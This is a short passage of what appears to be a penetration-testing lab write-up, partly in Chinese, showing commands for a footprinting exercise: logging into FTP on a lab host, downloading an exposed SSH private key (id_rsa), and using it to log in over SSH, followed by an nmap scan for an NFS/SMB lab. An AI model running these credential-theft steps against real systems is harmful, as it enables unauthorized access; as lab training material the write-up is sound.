 ```
ftp 10.129.180.203 2121
ls -al
```

<img src=".\pictures\image-20250506152053363.png" alt="image-20250506152053363" style="zoom:50%;" />

```
cd .ssh
get id_rsa
chmod 600 id_rsa
ssh ceil@10.129.180.203 -i id_rsa
```

<img src=".\pictures\image-20250506152709012.png" alt="image-20250506151633677" style="zoom:50%;" />

## footprinter lab medium——NFS+SMB+密码复用

```
nmap 10.129.202.41 #扫描主机常见的1000个端口
```

<img src=".\pictures\image-20250506154503704.png" alt="image-20250506151633677" style="zoom:50%;" />
